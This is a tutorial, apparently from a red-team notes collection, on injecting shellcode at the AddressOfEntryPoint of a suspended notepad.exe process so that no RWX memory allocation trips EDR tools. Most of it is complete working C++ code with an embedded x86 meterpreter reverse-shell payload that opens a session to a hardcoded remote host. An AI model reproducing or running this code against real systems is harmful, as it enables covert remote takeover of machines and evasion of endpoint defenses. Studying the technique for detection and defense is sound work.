


# AddressOfEntryPoint Code Injection without VirtualAllocEx RWX

This is a shellcode injection technique that works as follows:

1. Start a target process into which the shellcode will be injected, in suspended state. 
2. Get `AddressOfEntryPoint` of the target process
3. Write shellcode to `AddressOfEntryPoint` retrieved in step 2
4. Resume target process
5. Catch the incoming shell

What's nice about this technique is that we do not need to allocate RWX memory pages in the victim process which some EDRs may not like.

## Execution

First, in order to get `AddressOfEntryPoint`, we need to get the image base address of the target process - notepad.exe:


We then need to parse out the NT and Optional Headers and find the AddressEntryPoint \(Relative Virtual Address\) of the notepad.exe which in my case was at 0001bf90:


Knowing notepad's image base address and an RVA of the AddressEntryPoint, we can get its Virtual Address \(by adding the two up\) and hijack the executable by overwriting the very first instructions found at that address with our shellcode:



Resuming the suspended process executes our shellcode which results in a meterpreter session:



## Code

```cpp
#include "pch.h"
#include <iostream>
#include <windows.h>
#include <winternl.h>
#pragma comment(lib, "ntdll")

int main()
{
	//x86 meterpreter
	unsigned char shellcode[] = 
		"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
		"\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
		"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
		"\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
		"\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
		"\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
		"\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
		"\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
		"\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
		"\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
		"\x77\x26\x07\x89\xe8\xff\xd0\xb8\x90\x01\x00\x00\x29\xc4\x54"
		"\x50\x68\x29\x80\x6b\x00\xff\xd5\x6a\x0a\x68\x0a\x00\x00\x05"
		"\x68\x02\x00\x01\xbb\x89\xe6\x50\x50\x50\x50\x40\x50\x40\x50"
		"\x68\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x10\x56\x57\x68\x99\xa5"
		"\x74\x61\xff\xd5\x85\xc0\x74\x0a\xff\x4e\x08\x75\xec\xe8\x67"
		"\x00\x00\x00\x6a\x00\x6a\x04\x56\x57\x68\x02\xd9\xc8\x5f\xff"
		"\xd5\x83\xf8\x00\x7e\x36\x8b\x36\x6a\x40\x68\x00\x10\x00\x00"
		"\x56\x6a\x00\x68\x58\xa4\x53\xe5\xff\xd5\x93\x53\x6a\x00\x56"
		"\x53\x57\x68\x02\xd9\xc8\x5f\xff\xd5\x83\xf8\x00\x7d\x28\x58"
		"\x68\x00\x40\x00\x00\x6a\x00\x50\x68\x0b\x2f\x0f\x30\xff\xd5"
		"\x57\x68\x75\x6e\x4d\x61\xff\xd5\x5e\x5e\xff\x0c\x24\x0f\x85"
		"\x70\xff\xff\xff\xe9\x9b\xff\xff\xff\x01\xc3\x29\xc6\x75\xc1"
		"\xc3\xbb\xf0\xb5\xa2\x56\x6a\x00\x53\xff\xd5";
	
	STARTUPINFOA si;
	si = {};
	PROCESS_INFORMATION pi = {};
	PROCESS_BASIC_INFORMATION pbi = {};
	DWORD returnLength = 0;
	CreateProcessA(0, (LPSTR)"c:\\windows\\system32\\notepad.exe", 0, 0, 0, CREATE_SUSPENDED, 0, 0, &si, &pi);

	// get target image PEB address and pointer to image base
	NtQueryInformationProcess(pi.hProcess, ProcessBasicInformation, &pbi, sizeof(PROCESS_BASIC_INFORMATION), &returnLength);
	DWORD pebOffset = (DWORD)pbi.PebBaseAddress + 8;

	// get target process image base address
	LPVOID imageBase = 0;
	ReadProcessMemory(pi.hProcess, (LPCVOID)pebOffset, &imageBase, 4, NULL);
	
	// read target process image headers
	BYTE headersBuffer[4096] = {};
	ReadProcessMemory(pi.hProcess, (LPCVOID)imageBase, headersBuffer, 4096, NULL);

	// get AddressOfEntryPoint
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)headersBuffer;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)headersBuffer + dosHeader->e_lfanew);
	LPVOID codeEntry = (LPVOID)(ntHeader->OptionalHeader.AddressOfEntryPoint + (DWORD)imageBase);

	// write shellcode to image entry point and execute it
	WriteProcessMemory(pi.hProcess, codeEntry, shellcode, sizeof(shellcode), NULL);
	ResumeThread(pi.hThread);

	return 0;
}
```

